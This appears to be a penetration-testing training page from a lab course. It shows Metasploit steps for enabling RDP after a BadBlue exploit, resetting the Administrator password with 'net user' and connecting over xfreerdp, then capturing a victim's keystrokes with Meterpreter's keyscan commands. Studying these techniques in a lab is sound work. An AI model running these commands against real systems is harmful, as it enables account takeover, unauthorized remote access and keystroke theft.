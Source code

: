 ### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for initial access we use the Badblue vuln.

msf5 > search enable_rdp
msf5 > use post.windows/manage/enable_rdp #Enable RDP on the target machine
set sessions 1
exploit
db_nmap -p3389 $ip # to confirm rdp is open.

# we can change the password of the Amdinistrator, but this is not recommended, as it can serve as indicator of compromise.
sessions 1 # to load the session.
shell # spawn cmd prompt.
C:\> net user Administrator hacker123 # to change password, you need admin privs.

# connect to a target PC with a rdp utility
xfreerdp /u:<username> /p:<password> /v:<targetIP> #Connect to the target system via RDP using legitimate credentials.
# get the flag in the Admin Desktop folder.
```
{% endcode %}



## <mark style="color:red;">Windows Keylogging</mark>

* Keylogging is the process of recording or capturing the keystrokes entered on a target system.
* This technique is not limited to post exploitation, there are plenty of programs and USB devices that can be used to capture and transmit the keystrokes entered on a system.
* Meterpreter on a Windows system provides us with the ability to capture the keystrokes entered on a target system and download them back to our local system.

### **Practical Demonstration**

```bash
# we use Badblue for exploitation.

# Best to migrate meterpreter to explorer.exe before setting up keylogging.
meterpreter > pgrep explorer.exe
meterpreter > migrate <explorer PID>

meterpreter > help # check the User interface cmd help menu.
meterpreter > keyscan_start # Start the keylogging
meterpreter > keyscan_dump #Dump the results of the keylogging
meterpreter > keyscan_stop #Stop the keylogging

# practical test
# goto the victim pc, launch notepad
# goto the kali pc and run the keyscan_start module.
meterpreter > keyscan_start # Start the keylogging

# back in the victim, type somethings and the attacker can see it.
# in the kali, use the ketyscan_dump to dump everything.
meterpreter > keyscan_dump #Dump the results of the keylogging.

# you may need to restart the keyscan to get more dumps.
```
